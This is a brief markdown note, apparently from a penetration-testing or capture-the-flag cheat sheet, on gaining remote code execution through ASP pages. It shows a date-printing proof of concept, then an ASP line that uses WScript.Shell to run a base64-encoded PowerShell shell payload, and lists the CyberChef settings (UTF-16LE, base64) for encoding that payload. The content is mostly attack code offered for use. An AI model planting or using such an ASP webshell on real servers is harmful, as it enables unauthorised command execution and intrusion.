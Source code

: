 
PoC ASP RCE
```asp
<%response.write(date())%>
```

ASP shell object with powershell encoded 
```asp
<% CreateObject("WScript.Shell").exec("powershell -enc $b64PwshShell") %>
```

cyberchef.io 
`UTF-16LE (1200)` & `base64 A-Za-z0-9+/=`

## References

[XCT Writeup](https://www.youtube.com/watch?v=pItffHaDAcU)